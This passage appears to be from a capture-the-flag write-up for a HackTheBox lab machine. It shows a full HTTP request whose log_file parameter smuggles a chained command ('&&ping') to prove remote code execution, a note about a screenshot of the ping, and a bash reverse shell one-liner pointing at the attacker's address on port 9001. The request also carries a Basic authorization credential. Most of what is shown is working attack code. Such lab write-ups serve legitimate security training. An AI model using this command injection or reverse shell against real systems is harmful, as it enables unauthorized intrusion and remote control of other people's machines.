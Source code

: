 The request in full to ping my machine to prove RCE.

```
POST / HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://localhost:8081
Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==
Connection: keep-alive
Referer: http://localhost:8081/
Cookie: _pk_id.1.1fff=80ead113d394f9d8.1714626511.; zmSkin=classic; zmCSS=base
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log%26%26ping+-c+3+10.10.14.6&analyze_log=
```

## Ping Recieved

Screenshot showing the target pinging my machine proving RCE was obtained.

![8e9ea4a03eadecd98d970ab45aa258ac.png](/assets/img/8e9ea4a03eadecd98d970ab45aa258ac.png)

## Reverse Shell Payload

File containing a bash reverse shell which will be hosted on a python web server.

```
┌──(kali㉿kali)-[~/hackthebox/sea]
└─$ cat shell    
bash -i >& /dev/tcp/10.10.14.6/9001 0>&1
```
